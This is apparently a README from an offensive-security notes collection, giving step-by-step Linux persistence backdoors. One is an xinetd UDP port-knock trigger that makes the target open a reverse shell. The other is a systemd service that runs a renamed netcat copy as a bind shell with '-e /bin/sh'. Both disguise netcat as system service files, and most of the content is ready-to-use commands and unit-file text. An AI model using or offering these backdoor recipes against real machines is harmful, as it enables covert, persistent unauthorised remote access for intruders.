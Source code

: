 [Reverse Shells](../../Tools/Shells/Reverse/README.md)

# Xinetd UDP Portknock Backdoor
##### [Step 1 - On Target, create xinetd service](https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56)
[Local File](../../Tools/Shells/Persistence/xinetd/xinetd_server.sh)

It requires that netcat is on the target, in the /bin directory.  It copies netcat to file /bin/services.udp.
##### Step 2 - Start netcat listener on Attack machine
```bash
nc -lnvp <Port #>
```
##### Step 3 - Send a single UDP packet to target, "knocking," and causing the target to establish a reverse shell.
```bash
hping3 -2 -c 1 <Target IP Address> -p 65534
```

### Portknocking References
[Port knocking](https://en.wikipedia.org/wiki/Port_knocking)

# Systemd Netcat Bind Shell
##### Step 1 - On Target, copy netcat to a new file, in /lib/systemd directory.
```bash
cp /bin/nc /lib/systemd/systemd-service
```
##### Step 2 - On Target, create file /lib/systemd/system/systemd-service with following contents
[systemd-service](../../Tools/Shells/Persistence/Systemd/systemd-service)
```bash
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```
##### Step 3 - On Target, enable & start service
```bash
systemctl enable systemd.service
systemctl start systemd.service
```
##### Step 4 - Confirm that port is listening on the target
```bash
netstat -auntp | grep 56825
```
##### [Step 5 - From Attack machine, establish shell (Note Port # 56825)](../../Tools/Shells/Bind/README.md#Netcat-Bind-Shell)

